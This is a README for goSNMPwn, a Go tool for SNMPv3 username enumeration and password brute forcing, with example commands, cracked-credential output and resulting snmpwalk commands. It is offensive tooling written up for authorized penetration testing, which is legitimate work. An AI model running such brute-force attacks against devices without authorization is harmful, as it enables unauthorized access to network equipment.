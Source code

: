 # SNMPv3 Brute Force Tool

A multi-threaded SNMPv3 authentication testing tool written in Go. This tool can perform username enumeration, basic SNMP enumeration, and password brute forcing with support for various authentication and privacy protocols. It can do this over both UDP and TCP.

## A note of caution
Go easy with the workers. The default is 10 but even that might be too much for some hosts. I tested up to 60 against Ubuntu on a local VM and the most I saw the CPU spike to was 10%. That might not be the case for network devices, so be sensible!

## Features

- SNMPv3 username enumeration
- Basic SNMP enumeration
- Password brute force with multi-threading
- Support for multiple authentication protocols (MD5, SHA, SHA224, SHA256, SHA384, SHA512)
- Support for multiple privacy protocols (AES, DES)
- Support for all SNMPv3 security levels (noAuthNoPriv, authNoPriv, authPriv)
- Progress tracking and detailed output
- TCP and UDP support

## Usage

### Basic Enumeration
~~~bash
./goSNMPwn --enum -ips 10.10.10.1 -protocol udp [-port 161]
=== Testing IP: 10.10.10.1 ===

SNMP Engine Details:
Authorization Engine ID (hex): 80001f88804cb907288c06ae6700000000
Authorization Engine Boots: 4
Authorization Engine Time: 12753

Parsed Authorization Engine ID:
Engine ID Format: 8
Enterprise ID: net-snmp (8072)
MAC Address: 4c:b9:07:28:8c:06
~~~

### Username Enumeration
User enumeration relies on the fact that SNMP responds in a specific way when users dont exist. This allows us to use large lists of potential users to enumerate valid ones prior to brute forcing.

~~~bash
./goSNMPwn --userenum -ips 10.10.10.1 -userfile testusers.txt [-port 161]

=== Testing IP: 10.10.10.1 ===
[+] Valid username found on 10.10.10.1: cisco
[+] Valid username found on 10.10.10.1: snmp

Valid usernames saved to: foundusers_20250213_185106.txt

~~~

As you can see, it drops these to a file so we can use them in further attacks


### Password Brute Force

We should default to using the foundusers file generated during userenum. When we do this, we do not need to specify the IP addresses with the `-ips` or `-ipfile` flags because the file contains IP:User combos, so we can just...

~~~
./goSNMPwn --brute --userfile foundusers_20250213_185106.txt --passfile passwords.txt [-port 161] -workers 60
~~~



~~~bash
./goSNMPwn --brute -ips 10.10.10.1 -userfile testusers.txt -passfile passwords.txt [-port 161] -workers 60
[*] Starting brute force with 60 workers
[*] Total combinations to test: 1272362
[*] Combinations breakdown:
    - NULL Auth: 2 (users:2)
    - AuthNoPriv: 2760 (users:2 × passwords:230 × auth_protocols:6)
    - AuthPriv: 1269600 (users:2 × passwords:230 × enc_passwords:230 × auth_protocols:6 × priv_protocols:2)
    - Total combinations: 1272362
[*] [NULL Auth] Testing cisco@10.10.10.1 (1/1272362)
[*] [AuthNoPriv] Testing cisco@10.10.10.1 (Protocol:SHA Auth:crest) (2/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:crest) (3/1272362)
[*] [NULL Auth] Testing snmp@10.10.10.1 (4/1272362)
[*] [AuthNoPriv] Testing snmp@10.10.10.1 (Protocol:SHA Auth:crest) (5/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:crest) (6/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:none) (7/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:none) (8/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:PASSWORD) (9/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:PASSWORD) (10/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:traffic) (11/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:traffic) (12/1272362)
---snip---
[+] [AuthPriv] SUCCESS: cisco@10.10.10.1 (Protocols:MD5/AES Auth:password Priv:password)
[*] [AuthNoPriv] Testing cisco@10.10.10.1 (Protocol:MD5 Auth:sonicwall) (6346/30362)

Valid Users:
==================
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
|     HOST      | USERNAME | AUTH TYPE | AUTH PROTOCOL | AUTH PASSWORD | PRIV PROTOCOL | PRIV PASSWORD |                                        COMMAND                                        |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
| 10.10.10.1    | snmp     | authPriv  | SHA           | password      | AES           | password      | snmpwalk -v3 -l authPriv -u snmp -a SHA -A password -x AES -X password 10.10.10.1  |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
| 10.10.10.1    | cisco    | authPriv  | MD5           | password      | AES           | password      | snmpwalk -v3 -l authPriv -u cisco -a MD5 -A password -x AES -X password 10.10.10.1 |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
~~~
The tool will automatically skip to the next user when it finds a working credential pair to save time.
The tool provides you the SNMP Walk string required to validate this for yourself.

## Password Lists
I included some basic ones for both the password and encryption passphrases, but you should really build your own to suit the environment you are testing. Worth considering that there are a lot of potential combinations to go through anyway, as systems can be configured with a per user encryption & hash algorithm + a password and encryption password.

## Command Line Arguments

- `-ips`: Comma-separated list of IP addresses to test
- `-ipfile`: File containing list of IPs (one per line)
- `-userfile`: File containing usernames to test
- `-passfile`: Password list for brute force
- `-encfile`: File containing encryption passwords (optional)
- `-enum`: Perform basic SNMP enumeration
- `-userenum`: Perform username enumeration
- `-brute`: Perform password brute force
- `-protocol`: SNMP protocol to use (udp or tcp)
- `-workers`: Number of concurrent workers for brute force (default: 10)
- `-port`: SNMP port number (default: 161)


## Security Considerations

This tool is intended for authorized security testing only. Ensure you have permission to test the target systems before use. 

